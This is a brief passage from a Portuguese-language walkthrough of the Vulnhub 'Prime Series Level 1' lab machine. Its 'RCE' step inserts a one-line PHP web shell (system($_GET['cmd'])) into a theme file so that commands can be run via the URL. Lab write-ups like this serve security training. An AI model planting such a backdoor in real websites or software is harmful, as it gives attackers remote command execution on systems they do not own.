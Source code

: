 ![](/assets/img/Vulnhub/Prime_Series_level-1/theme-secret-php.png)




## RCE


* Agora e so inserir o fomoso backdoor php para executarmos codigo via URL

```php
<?php system($_GET['cmd']); ?>
```
